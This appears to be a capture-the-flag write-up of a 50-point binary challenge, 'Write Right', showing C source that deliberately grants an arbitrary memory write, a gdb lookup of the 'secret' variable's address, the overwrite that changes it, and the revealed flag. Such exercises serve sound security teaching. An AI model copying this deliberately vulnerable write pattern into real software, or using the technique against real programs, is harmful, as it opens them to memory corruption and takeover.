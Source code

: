 ### Solved by et0x

Write Right is a 50 point binary exploitation challenge.


> Can you change the secret? The binary can be found at /home/write_right/ on the shell server. The source can be found here. 

The source for the binary is the following:

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

unsigned secret = 0xdeadbeef;

int main(int argc, char **argv){
    unsigned *ptr;
    unsigned value;

    char key[33];
    FILE *f;

    printf("Welcome! I will grant you one arbitrary write!\n");
    printf("Where do you want to write to? ");
    scanf("%p", &ptr);
    printf("Okay! What do you want to write there? ");
    scanf("%p", (void **)&value);

    printf("Writing %p to %p...\n", (void *)value, (void *)ptr);
    *ptr = value;
    printf("Value written!\n");

    if (secret == 0x1337beef){
        printf("Woah! You changed my secret!\n");
        printf("I guess this means you get a flag now...\n");

        f = fopen("flag.txt", "r");
        fgets(key, 32, f);
        fclose(f);
        puts(key);

        exit(0);
    }

    printf("My secret is still safe! Sorry.\n");
}
```

So this program allows an arbitrary write at the location in memory you specify, in this case, the location of "secret".

Looks like all we need to do is find the address of the variable.  Let's throw it into gdb.

```bash
pico1139@shell:/home/write_right$ gdb -q write_right
Reading symbols from write_right...(no debugging symbols found)...done.
(gdb) p &secret
$1 = (<data variable, no debug info> *) 0x804a03c <secret>
```

Our address is **0x804a03c**. Lets put 1337beef into that location and see what happens.  

```
pico1139@shell:/home/write_right$ ./write_right
Welcome! I will grant you one arbitrary write!
Where do you want to write to? 804a03c
Okay! What do you want to write there? 1337beef
Writing 0x1337beef to 0x804a03c...
Value written!
Woah! You changed my secret!
I guess this means you get a flag now...
```
The flag is **arbitrary_write_is_always_right**

